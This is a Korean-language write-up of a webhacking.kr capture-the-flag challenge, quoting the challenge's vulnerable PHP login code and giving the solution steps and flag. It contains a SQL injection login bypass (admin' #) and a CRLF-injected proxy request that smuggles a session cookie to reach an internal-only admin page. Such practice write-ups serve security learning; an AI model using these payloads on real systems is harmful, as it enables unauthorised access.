





# [목차]
**1. [Description](#Description)**

**2. [Write-Up](#Write-Up)**

**3. [FLAG](#FLAG)**


***


# **Description**


# **Write-Up**

admin page를 클릭하면 아이디와 패스워드를 입력하라는 문구가 나오고 취소를 누르면 view-source를 클릭할 수 있는 페이지가 나온다.



view-source를 클릭하면 필터링이 없어 간단한 SQLi를 하라는 로직과 proxy를 이용하라는 로직이 나온다.

```php
... 생략 ...
  if($_SESSION['login'] == "admin"){
    if(preg_match("/^172\.17\.0\./",$_SERVER['REMOTE_ADDR'])) echo $flag;
    else echo "Only access from virtual IP address";
... 생략 ...

    $id = $_SERVER['PHP_AUTH_USER'];
    $pw = $_SERVER['PHP_AUTH_PW'];
    $pw = md5($pw);
    $db = dbconnect();
    $query = "select id from member where id='{$id}' and pw='{$pw}'";
    $result = mysqli_fetch_array(mysqli_query($db,$query));
    if($result['id']){
      $_SESSION['login'] = $result['id'];
      exit("<script>location.href='./';</script>");
    }
... 생략 ...
```

먼저 admin page에서 아이디에 admin' #를 넣고 패스워드를 아무거나 입력하여 $_SESSION['login']에 admin 값을 넣자.



그리고 proxy페이지를 가보면 다음과 같은 화면이 나온다.



Proxy를 이용한 Request는 Cookie에 PHPSESSID가 없어서 admin 페이지에 접근하여도 인증이 되지 않는다. 따라서 다음과 같이 Header를 넣어준다.

    page?=/admin/ HTTP/1.1%0d%0aHost: webhacking.kr:10008%0d%0aCookie:%20PHPSESSID=gbruj631fl7lvhbu3im66fa0s0%0d%0aConnection: Close%0d%0a%0d%0a



FLAG를 인증하여 점수를 획득하자.




# **FLAG**

**FLAG{Server_Side_Request_Forgery_with_proxy!}**